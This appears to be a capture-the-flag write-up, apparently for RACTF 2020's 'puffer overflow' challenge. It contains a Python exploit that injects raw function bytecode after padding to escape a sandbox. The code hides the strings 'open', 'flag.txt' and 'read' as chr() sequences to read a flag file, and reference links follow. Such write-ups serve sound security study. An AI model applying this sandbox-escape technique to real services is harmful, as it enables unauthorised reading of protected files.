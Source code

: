 ````python
import sys
import dis
def exploit():
	chr
	ord 
	globals 
	locals
	getattr 
	setattr	chr(0)+chr(1)+chr(2)+chr(3)+chr(4)+chr(5)+chr(6)+chr(7)+chr(8)+chr(9)+chr(11)+chr(11)+chr(12)+chr(13)+chr(14)+chr(15)+chr(16)+chr(17)+chr(18)+chr(19)+chr(20)+chr(21)+chr(22)+chr(23)+chr(24)+chr(25)+chr(26)+chr(27)+chr(28)+chr(29)+chr(30)+chr(31)+chr(32)+chr(33)+chr(34)+chr(35)+chr(36)+chr(37)+chr(38)+chr(39)+chr(40)+chr(41)+chr(42)+chr(43)+chr(44)+chr(45)+chr(46)+chr(47)+chr(48)+chr(49)+chr(50)+chr(51)+chr(52)+chr(53)+chr(54)+chr(55)+chr(56)+chr(57)+chr(58)+chr(59)+chr(60)+chr(61)+chr(62)+chr(63)+chr(64)+chr(65)+chr(66)+chr(67)+chr(68)+chr(69)+chr(70)+chr(71)+chr(72)+chr(73)+chr(74)+chr(75)+chr(76)+chr(77)+chr(78)+chr(79)+chr(80)+chr(81)+chr(82)+chr(83)+chr(84)+chr(85)+chr(86)+chr(87)+chr(88)+chr(89)+chr(90)+chr(91)+chr(92)+chr(93)+chr(94)+chr(95)+chr(96)+chr(97)+chr(98)+chr(99)+chr(100)+chr(101)+chr(102)+chr(103)+chr(104)+chr(105)+chr(106)+chr(107)+chr(108)+chr(109)+chr(110)+chr(111)+chr(112)+chr(113)+chr(114)+chr(115)+chr(116)+chr(117)+chr(118)+chr(119)+chr(120)+chr(121)+chr(122)+chr(123)+chr(124)+chr(125)+chr(126)+chr(127)+chr(128)+chr(129)+chr(130)+chr(131)+chr(132)+chr(133)+chr(134)+chr(135)+chr(136)+chr(137)+chr(138)+chr(139)+chr(140)+chr(141)+chr(142)+chr(143)+chr(144)+chr(145)+chr(146)+chr(147)+chr(148)+chr(149)+chr(150)+chr(151)+chr(152)+chr(153)+chr(154)+chr(155)+chr(156)+chr(157)+chr(158)+chr(159)+chr(160)+chr(161)+chr(162)+chr(163)+chr(164)+chr(165)+chr(166)+chr(167)+chr(168)+chr(169)+chr(170)+chr(171)+chr(172)+chr(173)+chr(174)+chr(175)+chr(176)+chr(177)+chr(178)+chr(179)+chr(180)+chr(181)+chr(182)+chr(183)+chr(184)+chr(185)+chr(186)+chr(187)+chr(188)+chr(189)+chr(190)+chr(191)+chr(192)+chr(193)+chr(194)+chr(195)+chr(196)+chr(197)+chr(198)+chr(199)+chr(200)+chr(201)+chr(202)+chr(203)+chr(204)+chr(205)+chr(206)+chr(207)+chr(208)+chr(209)+chr(210)+chr(211)+chr(212)+chr(213)+chr(214)+chr(215)+chr(216)+chr(217)+chr(218)+chr(219)+chr(220)+chr(221)+chr(222)+chr(223)+chr(224)+chr(225)+chr(226)+chr(227)+chr(228)+chr(229)+chr(230)+chr(231)+chr(232)+chr(233)+chr(234)+chr(235)+chr(236)+chr(237)+chr(238)+chr(239)+chr(240)+chr(241)+chr(242)+chr(243)+chr(244)+chr(245)+chr(246)+chr(247)+chr(248)+chr(249)+chr(250)+chr(251)+chr(252)+chr(253)+chr(254)+chr(255)
	return getattr(globals()[chr(111)+chr(112)+chr(101)+chr(110)](chr(102)+chr(108)+\
		chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)),chr(114)+chr(101)+chr(97)+chr(100))()

sys.stdout.buffer.write(b'a'*32+exploit.__code__.co_code)
````

Attention: because \x10 will end the enter, so we replace it to \x11

# Reference

[Python沙箱逃逸的n种姿势](https://xz.aliyun.com/t/52#toc-13)

[Introduction to the Python Interpreter, Part 1: Function Objects](https://akaptur.com/blog/2013/11/15/introduction-to-the-python-interpreter/)

[1064CBread](https://ohaithe.re/post/620649441275297792/ractf-puffer-overflow)

[bout_to_get_flagged](https://ypl.coffee/ractf-2020-puffer-overflow/)


